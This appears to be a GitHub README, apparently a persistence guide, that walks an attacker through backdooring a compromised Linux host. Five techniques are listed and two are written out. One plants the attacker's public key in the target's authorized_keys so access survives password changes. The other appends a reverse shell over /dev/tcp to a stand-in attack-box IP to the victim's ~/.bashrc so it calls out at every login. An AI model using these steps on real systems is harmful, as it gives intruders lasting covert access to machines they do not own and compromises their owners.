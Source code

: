 # backdoors

1.ssh\
2.bashrc\
3.suid\
4.cron\
5.php

# //------------------------------------
# 1. SSH Key Access
SSH keys provide extreme convenience for system administrators, however, they also provide convenient backdoors for attackers. Start on your host by generating an SSH key with the command:
\
ssh-keygen\
\
![image](https://raw.githubusercontent.com/DDNvR/backdoors/main/images/sshkeygen.png)
\
This should generate two files an id_rsa.pub which is your public key, and id_rsa which is your private key.\
\
Now that the keys are generated switch back over to the target box and cd to your user's respective home directory (cd ~). As you can see in the image below there was no .ssh directory or authorized_keys file. This is no issue as you can create them with the commands:\
\
mkdir .ssh\
touch authorized_keys

![image](https://github.com/DDNvR/backdoors/blob/main/images/authorizedkeys.png)

\
With that taken care of, back on your attacker box, cat you id_rsa.pub (the public key and copy the entire output.

![image](https://github.com/DDNvR/backdoors/blob/main/images/keyshow.png)

\
All that is left to do is to echo the output of your id_rsa.pub into the authorized_keys file on the target box. I always like to double-check key was formatted properly by taking a look at the authorized_keys file. Alternatively to echoing the contents of your public key to the authorized_keys file, if you have ssh access to the target box you can utilize the text editor of your choice and copy + paste the contents.

![image](https://github.com/DDNvR/backdoors/blob/main/images/addkey.png)

\
Now to utilize the backdoor all you have to do is ssh to the target box and no matter what they change their password to you will always have key access to the host.\
\
Note: make sure to use -i [private key file] in your ssh command to specify you want to make use of key authentication.\

# //------------------------------------
# Bashrc Backdoor
The .bashrc file, located in every user's home directory is rarely checked by the average user, making this one of my favorite spots to stick a backdoor.\
\
Ensure you are in your user’s home directory by issuing the command:\
\
cd ~\
\
Now that you are in their home directory simply echo the following and direct the output to append(not overwrite the .bashrc file):\
\
echo ‘bash -i >& /dev/tcp/[attack box ip address]/[port] 0>&1’ >> ~/.bashrc\
\
Confirm the aforementioned command completed successfully my examining the end of the .bashrc file with:\
\
tail ~/.bashrc\
\
With that established, all that is left to do is set up a listener. Now every time that user logs in to the box it will call out to your attack box on the specified port number! To simulate this in a lab environment simply exit the ssh session and re-login with the key persistence we set up earlier. This login will trigger the reverse shell to call out.\
imagehere\

# //------------------------------------


